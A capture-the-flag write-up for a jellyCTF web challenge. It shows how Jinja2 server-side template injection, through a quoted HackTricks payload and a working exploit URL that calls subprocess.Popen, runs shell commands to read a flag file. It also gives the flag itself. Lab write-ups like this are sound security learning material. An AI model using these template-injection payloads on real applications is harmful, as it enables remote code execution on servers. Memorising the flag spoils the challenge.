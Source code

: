 # bro_visited_his_site_2

## Difficulty

Easy

## Points Earned

453

## Description

> ok, but can you get /app/flag.txt
> 
> note: this is not the flask secret - that's the first bro_visited_his_site
> 
> 20 point hint: list of techniques for the vuln class
> 
> Author: arepi
> 
> https://bro-visited-his-site.jellyc.tf/

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

## Solution

Somehow we need to execute a shell command to print the contents of `flag.txt`, and just putting `; cat flag.txt` in the text field doesn't work. Doing some Googling about template injection (https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), I found out that I needed to access the global object and use Popen to read `flag.txt`. This is the snippet that caught my attention:

> ### RCE
> ```python
> # The class 396 is the class <class 'subprocess.Popen'>
> {{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,> stdout=-1).communicate()[0].strip()}}
> ```

When we visit `https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()`, we are greeted with a massive list of classes. The index of Popen here isn't the same as it is in the HackTricks article above, so I had to look for it myself.

After finding Popen's index, I plugged it into the rest of the URL to get the flag:

```python
https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()[520]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

![bro_visited_his_site_2 solution](./images/bro_visited_his_site_2_sol.png "bro_visited_his_site_2 solution")

## Flag

`jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}`
